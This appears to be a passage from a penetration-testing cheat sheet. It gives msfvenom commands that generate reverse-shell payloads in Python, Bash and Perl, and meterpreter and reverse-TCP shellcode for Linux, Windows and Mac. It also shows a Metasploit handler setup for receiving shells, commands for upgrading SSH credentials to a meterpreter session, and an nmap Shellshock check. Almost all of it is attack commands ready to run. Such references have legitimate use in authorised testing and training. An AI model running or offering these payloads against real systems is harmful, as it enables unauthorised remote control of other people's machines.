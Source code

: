       **Scripting Payloads**
     
      *Python*
 
      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
     
      *Bash*
 
      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
     
      *Perl*
 
      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
     
      **Shellcode**
     
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.
 
      *Linux Based Shellcode*
 
      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
     
      *Windows Based Shellcode*
 
      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
     
      *Mac Based Shellcode*
 
      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
 
      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.
 
         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
     
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
 
-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/
 
         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter
 
-   Shellshock
 
    -   Testing for shell shock with NMap
   
    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`
 